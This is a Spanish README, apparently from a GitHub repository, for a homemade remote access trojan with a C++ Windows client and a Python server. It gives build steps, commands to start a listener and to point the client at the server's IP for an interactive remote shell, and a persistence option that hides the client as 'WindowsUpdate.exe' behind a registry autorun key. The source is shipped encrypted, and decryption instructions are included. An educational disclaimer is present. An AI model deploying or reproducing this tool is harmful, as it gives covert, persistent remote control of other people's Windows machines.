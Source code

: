 # RAT C++

> [!WARNING]
> Aunque es algo super sencillo prefiero no tener directamente malware en mis repos de GitHub así que, por favor, descargue la `encryption.key` adjunta y ejecute el código para desencriptar:
> `./direncrypt ./Client -d encryption.key`

> SHA original: `fb78bee1941d787ce88a531f444aab5d785e6d065d0db7c25acd6bf3d820c93a`

Si no quiere hacer el proceso hay una [demostración](#demostración) al final de este README.

---

Este proyecto es una implementación con fines educativos de un RAT que permite la ejecución remota de comandos en una máquina Windows desde un servidor en Linux. Toda la comunicación se encuentra cifrada utilizando **AES-128 (CBC)** para garantizar la confidencialidad.

El cliente está desarrollado en **C++** para Windows y el servidor en **Python**.

## Características

  - **Canal de Comunicación Cifrado:** Utiliza una clave precompartida AES-128 para cifrar todo el tráfico.
  - **Ejecución Remota de Comandos:** El servidor puede enviar cualquier comando de la shell de Windows al cliente y recibir la salida.
  - **Mecanismo de Persistencia:** El cliente puede instalarse en el sistema Windows para ejecutarse automáticamente en cada inicio de sesión.
  - **Cross-Compilation:** El cliente de Windows se compila fácilmente desde un entorno Linux usando `MinGW-w64`.

## Estructura del Proyecto

```
.
├── Client
│   ├── build.sh
│   ├── client.exe
│   ├── comm.cpp
│   ├── crypto.cpp
│   ├── exec.cpp
│   ├── include
│   │   ├── comm.h
│   │   ├── crypto.h
│   │   ├── exec.h
│   │   └── persist.h
│   ├── main.cpp
│   ├── Makefile
│   └── persist.cpp
├── direncrypt
├── keygen.py
└── Server
    ├── requirements.txt
    └── server.py
```

## Requisitos Previos

### Entorno de Compilación (Linux)

Para compilar el cliente (`client.exe`) necesitas un entorno Linux con el compilador cruzado **MinGW-w64**.

  - En **Debian/Ubuntu**, puedes instalarlo con:
    ```bash
    sudo apt update
    sudo apt install -y mingw-w64
    ```

### Entorno del Servidor (Python)

El servidor requiere Python 3 y algunas librerías externas.

1.  Navega al directorio del servidor:
    ```bash
    cd Server/
    ```
2.  Instala las dependencias usando el archivo `requirements.txt`:
    ```bash
    pip install -r requirements.txt
    ```

> Se recomienta usar un entorno virtual

## Tutorial de Uso

### Paso 1: Generar una Clave de Cifrado

El script `keygen.py` genera una clave AES-128 segura de 32 caracteres hexadecimales que necesitarán tanto el cliente como el servidor.

```bash
python3 keygen.py
```

**Salida de ejemplo:**

```
============================================================
  AES-128 Key Generator
============================================================

Generated Key: 4A18E9B6D8C02F5E7A3D9B4C1F0A6E2D

Length: 32 characters (16 bytes)
...
```

**Guarda esta clave, la necesitarás en los siguientes pasos.**

### Paso 2: Compilar el Cliente para Windows

Desde tu máquina Linux, navega al directorio del cliente y ejecuta el script de compilación.

```bash
cd Client/
./build.sh
```

Si la compilación es exitosa, se creará el archivo `client.exe` en el directorio `Client/`.

### Paso 3: Configurar el Entorno de Pruebas

Para probar la aplicación de forma segura, se recomienda usar una máquina virtual (VM) de Windows.

1.  **Monta la carpeta del proyecto** como un volumen compartido o una carpeta de red en tu VM de Windows. Esto te permitirá acceder al `client.exe` compilado desde dentro de la VM.
2.  Asegúrate de que la red de la VM esté configurada para que pueda comunicarse con la máquina anfitriona (Linux). Una configuración de red "Puente" (Bridged) o "NAT" suele funcionar.

> [!NOTE]
> La carpeta compartida no es necesaria pero yo lo hice así para el desarrollo

### Paso 4: Iniciar el Servidor

En tu máquina Linux, ejecuta el `server.py` especificando un puerto y la clave AES que generaste en el Paso 1.

```bash
# Formato: python3 Server/server.py <PUERTO> <CLAVE_AES>
python3 Server/server.py 4444 4A18E9B6D8C02F5E7A3D9B4C1F0A6E2D
```

El servidor comenzará a escuchar conexiones entrantes.

### Paso 5: Ejecutar el Cliente

Dentro de tu VM de Windows, abre una terminal (CMD o PowerShell) y ejecuta el cliente.

  - **IP:** La dirección IP de tu máquina anfitriona Linux.
  - **PUERTO:** El mismo puerto que usaste para el servidor.
  - **CLAVE\_AES:** La misma clave que usaste para el servidor.

<!-- end list -->

```powershell
# Formato: ./client.exe <IP_SERVIDOR> <PUERTO> <CLAVE_AES> [--persist | --nopersist]

.\client.exe 192.168.1.100 4444 4A18E9B6D8C02F5E7A3D9B4C1F0A6E2D --nopersist
```

Si todo es correcto, verás un mensaje de conexión en el servidor y aparecerá una shell interactiva `RAT >`.

## Argumentos del Cliente y Persistencia

El comportamiento del cliente se puede controlar con los siguientes argumentos:

  - `--persist`: Al usar esta opción, el cliente se copiará a sí mismo a la carpeta `%APPDATA%` y creará una clave en el registro de Windows para ejecutarse automáticamente cada vez que el usuario inicie sesión.
  - `--nopersist`: El cliente se ejecuta una sola vez y no realiza ninguna modificación en el sistema. Si no se especifica `--persist` ni `--nopersist`, este es el comportamiento por defecto.
  - `--appname <NOMBRE>`: Permite especificar un nombre para el archivo copiado y la entrada del registro cuando se usa la persistencia (el valor por defecto es `WindowsUpdate.exe`).

> [\!NOTE]
> Cuando la persistencia se instala, el programa guarda el comando completo (incluyendo IP, puerto y clave) en el registro para poder reconectarse automáticamente después de un reinicio.

## Comandos Remotos Especiales

Una vez conectado, además de los comandos estándar de Windows (`dir`, `whoami`, etc.), puedes usar los siguientes comandos desde la shell del servidor:

  - `persist_install`: Instala la persistencia en la máquina cliente.
  - `persist_remove`: Elimina la persistencia del cliente.
  - `persist_check`: Verifica si la persistencia está activa.
  - `exit` o `quit`: Cierra la conexión con el cliente.

> [!WARNING]
> Este software está diseñado únicamente con fines educativos. Su uso está destinado a entornos controlados y aislados, como máquinas virtuales. No utilices esta herramienta en sistemas para los que no tengas autorización explícita.

# Demostración

## Poniendo el servidor en escucha

<p align="center">
    <img src="resources/server_en_escucha.png" alt="Server en escucha"/>
</p>

## Activando el RAT

<p align="center">
    <img src="resources/RAT_activado.png" alt="RAT activado"/>
</p>

## Usando el RAT

<p align="center">
    <img src="resources/usando_el_RAT.png" alt="Usando el RAT"/>
</p>
